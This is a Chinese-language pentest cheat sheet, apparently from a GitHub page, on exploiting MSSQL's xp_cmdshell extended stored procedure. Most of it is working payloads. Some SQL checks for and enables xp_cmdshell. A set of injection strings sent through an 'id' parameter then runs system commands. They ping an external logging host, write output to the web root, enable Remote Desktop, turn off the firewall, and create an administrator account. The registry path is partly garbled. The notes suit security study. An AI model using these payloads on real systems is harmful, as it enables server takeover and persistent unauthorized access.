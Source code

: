 #### (5). 扩展存储过程

* 扩展存储过程以xp_开头，主要使用外部程序语言编写的存储过程
* 如xp_cmdshell执行系统命令、xp_subdirs读取文件夹内的文件夹列表

##### a. xp_cmdshell

* xp_cmdshell存储过程可以执行系统命令，默认支持输出执行结果

###### ①前提条件

1. 当前用户拥有DBA权限

2. 依赖于xplog70.dll

3. 存储过程存在并已启用

* 2005版本以后默认禁用，可使用sp_configure来启用


```mssql
EXEC sp_configure 'show advanced options',1;
RECONFIGURE WITH OVERRIDE;
```

###### ②利用

1. 步骤

   ```mssql
   1. 判断是否为DBA权限
   	select is_srvrolemember('sysadmin');	
   2. 查看是否存在xp_cmdshell
   	select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell'	
   3. 开启xp_cmdshell
       EXEC sp_configure 'show advanced options',1;
       RECONFIGURE WITH OVERRIDE;	
       EXEC sp_configure 'xp_cmdshell',1;
       RECONFIGURE WITH OVERRIDE;
   4. 关闭xp_cmdshell
   	EXEC sp_configure 'show advanced options',1;
       RECONFIGURE WITH OVERRIDE;	
       EXEC sp_configure 'xp_cmdshell',0;
       RECONFIGURE WITH OVERRIDE;
   ```

2. SQL注入+xp_cmdshell

   ```
   1. 查看是否禁用xp_cmdshell
       id=0' union select 1,2,count(*) from master..sysobjects where xtype='X' and name='xp_cmdshell' --+
       id=1' and 1=(select count(*) from master.sys.sys.objects where name='xp_cmdshell') --+
   2. 开启xp_cmdshell
   	id=0';EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE; --+
   3. 测试是否成功
   	id=1';EXEC master.sys.xp_cmdshell 'ping -n 1 Laffrex.eyes.sh' --+
   4. 执行命令
   	id=1';EXEC master.sys.xp_cmdshell 'whoami > c:\inetpub\wwwroot\1.txt' --+
   	id=1';EXEC master.sys.xp_cmdshell 'REG ADD HELM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f' --+
   	id=1';EXEC master.sys.xp_cmdshell 'netsh firewall set opmode disable' --+
   	id=1';EXEC master.sys.xp_cmdshell 'net user admin 1qaz!QAZ /add' --+
   	id=1';EXEC master.sys.xp_cmdshell 'net localgroup administrators admin /add' --+
   ```
